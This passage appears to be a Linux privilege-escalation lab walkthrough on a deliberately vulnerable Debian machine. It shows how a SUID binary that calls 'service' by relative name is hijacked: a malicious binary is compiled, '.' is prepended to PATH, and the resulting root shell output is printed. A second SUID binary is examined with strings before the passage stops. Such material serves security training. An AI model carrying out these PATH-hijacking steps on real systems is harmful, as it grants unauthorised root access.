 
##  SUID / SGID Executables - Environment Variables

- Running `strings` on the SUID binary:

```bash
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
user@debian:~/.config$ cd 
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

- Compile the malicious C code and storing the executable in the home directory.
- Append the current directory to the **PATH variable**.
- Run the binary to gain root shell

```bash
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin
user@debian:~$ PATH=.:$PATH
user@debian:~$ /usr/local/bin/suid-env
root@debian:~# whoami
root
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

---

##  SUID / SGID Executables - Abusing Shell Features (#1)

- Running `strings` on SUID executable:

```bash
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```